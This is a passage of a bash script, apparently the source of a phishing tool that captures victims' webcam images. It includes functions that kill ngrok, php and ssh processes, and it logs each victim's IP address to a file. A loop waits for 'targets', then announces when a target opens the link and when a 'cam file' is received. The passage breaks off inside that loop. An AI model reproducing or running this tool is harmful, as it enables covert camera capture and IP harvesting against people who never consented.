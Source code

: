 dependencies() {


command -v php > /dev/null 2>&1 || { echo >&2 "I require php but it's not installed. Install it. Aborting."; exit 1; }



}

stop() {

checkngrok=$(ps aux | grep -o "ngrok" | head -n1)
checkphp=$(ps aux | grep -o "php" | head -n1)
checkssh=$(ps aux | grep -o "ssh" | head -n1)
if [[ $checkngrok == *'ngrok'* ]]; then
pkill -f -2 ngrok > /dev/null 2>&1
killall -2 ngrok > /dev/null 2>&1
fi

if [[ $checkphp == *'php'* ]]; then
killall -2 php > /dev/null 2>&1
fi
if [[ $checkssh == *'ssh'* ]]; then
killall -2 ssh > /dev/null 2>&1
fi
exit 1

}

catch_ip() {

ip=$(grep -a 'IP:' ip.txt | cut -d " " -f2 | tr -d '\r')
IFS=$'\n'
printf "\e[1;93m[\e[0m\e[1;77m+\e[0m\e[1;93m] IP:\e[0m\e[1;77m %s\e[0m\n" $ip

cat ip.txt >> saved.ip.txt


}

checkfound() {

printf "\n"
printf "\e[1;92m[\e[0m\e[1;77m*\e[0m\e[1;92m] Waiting targets,\e[0m\e[1;77m Press Ctrl + C to exit...\e[0m\n"
while [ true ]; do


if [[ -e "ip.txt" ]]; then
printf "\n\e[1;92m[\e[0m+\e[1;92m] Target opened the link!\n"
catch_ip
rm -rf ip.txt

fi

sleep 0.5

if [[ -e "Log.log" ]]; then
printf "\n\e[1;92m[\e[0m+\e[1;92m] Cam file received!\e[0m\n"
rm -rf Log.log
fi
sleep 0.5
